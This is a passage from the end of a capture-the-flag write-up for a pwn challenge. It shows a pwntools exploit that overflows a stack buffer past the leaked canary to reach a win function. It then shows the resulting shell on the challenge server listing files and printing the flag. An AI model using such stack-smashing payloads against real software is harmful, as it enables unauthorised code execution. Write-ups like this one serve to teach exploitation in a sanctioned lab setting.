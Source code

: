 ```python
payload = BASE + NULLBYTE + REMAINING_CANARY + p64(PADDING) + p64(RET) + p64(WIN_FUNC)  

r.sendline(payload)
r.interactive()
```

Running it on the remote server:
```
$ python3 duckexploit.py
[+] Opening connection to pwn.chall.pwnoh.io on port 13386: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}
$ id
uid=1000 gid=1000 groups=1000
$
```

We get a shell!

Flag: `buckeye{if_it_quacks_like_a_duck_it_might_not_be_a_duck}`

Unfortunately, this duck did not protecc the stacc so well. Still an adorable birb though so no hate.
